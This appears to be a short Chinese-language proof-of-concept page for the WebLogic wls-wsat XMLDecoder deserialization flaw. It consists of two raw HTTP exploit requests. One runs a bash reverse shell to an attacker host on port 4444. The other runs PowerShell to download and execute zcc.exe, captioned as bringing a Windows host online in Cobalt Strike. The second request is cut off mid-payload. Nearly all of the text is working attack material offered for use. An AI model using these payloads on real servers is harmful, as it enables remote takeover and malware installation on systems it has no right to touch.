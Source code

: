 实现Linux反弹shell的poc：

```php
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: x.x.x.x:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 637

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/x.x.x.x/4444 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

实现win上线cs

```php
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.10.154:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 704

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>powershell</string>
 </void>
 <void index="1">
 <string>-Command</string>
 </void>
 <void index="2">
 <string>(new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc.exe','zcc.exe');start-process zcc.exe</string>
</void>
</array>
```